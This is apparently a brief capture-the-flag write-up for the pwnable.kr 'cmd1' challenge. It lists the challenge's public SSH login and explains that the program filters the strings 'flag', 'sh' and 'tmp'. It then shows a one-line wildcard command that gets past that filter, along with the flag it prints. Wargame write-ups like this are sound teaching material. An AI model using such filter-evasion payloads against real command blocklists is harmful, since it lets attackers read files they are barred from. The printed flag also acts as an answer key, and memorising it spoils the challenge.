```yaml
---
layout:     post
title:      pwnable cmd1
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>http://pwnable.kr/  
>  
>Problem Description:  
>Mommy! what is PATH environment in Linux?  
>Address:  
>ssh cmd1@pwnable.kr -p2222 (pw:guest)  
<!-- more -->


### 0x00 exploit

查看源码, 过滤了 flag、sh、tmp 字符

![](/assets/img/writeup/pwn/2017-08-27-pwnable-cmd1/0x00.png)

利用通配符*绕过, getflag~

```
$ ./cmd1 "/bin/cat f*"
mommy now I get what PATH environment is for :)
```

![](/assets/img/writeup/pwn/2017-08-27-pwnable-cmd1/0x01.png)